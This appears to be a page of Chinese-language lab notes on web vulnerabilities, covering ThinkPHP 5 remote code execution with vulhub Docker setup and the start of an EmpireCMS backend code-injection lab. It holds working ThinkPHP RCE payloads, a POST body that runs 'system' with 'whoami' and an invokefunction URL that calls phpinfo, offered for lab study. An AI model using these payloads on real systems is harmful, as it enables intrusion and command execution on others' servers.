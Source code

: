 ```
使用bp抓包,修改为POST方式,URL添加/index.php?s=captcha  
使用POST传参 _method=__construct&amp;filter[]=system&amp;method=get&amp;server[REQUEST_METHOD]=whoami

```

```
可以发现成功传参

```

#### ThinkPHP 5.0.22/5.1.29 远程代码执行漏洞

```
ThinkPHP 5中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。
这个rce漏洞归根结底就是因为 把控制器名字的 \ 开头作为类名导致我们可以实例化任意类，后面的payload也不过是基于此漏洞的利用。

```

```
靶机环境安装
升级apt-get
apt-get update

安装docker
sudo apt-get install docker.io
sudo apt-get install docker-compose

下载vulhub
git clone https://github.com/vulhub/vulhub.git

通过vulhub安装环境
cd vulhub/thinkphp/5-rce
docker-compose up -d

```

```
访问靶场页面
http://xxx.xxx.xxx.xxx:8080

访问链接来执行phpinfo函数
http://xxx.xxx.xxx.xxx:8080/index.php?s=/Index/\think\app/invokefunction&amp;func
tion=call_user_func_array&amp;vars[0]=phpinfo&amp;vars[1][]=-1

```

### 帝国cms漏洞

#### 后台代码注入漏洞

```
靶机环境安装

打开phpstudy环境
下载empirecms
http://www.phome.net/download/

将upload文件夹解压到网站根目录
访问http://xxx.xxx.xxx.xxx/empire/e/install
按照提示进行安装

```
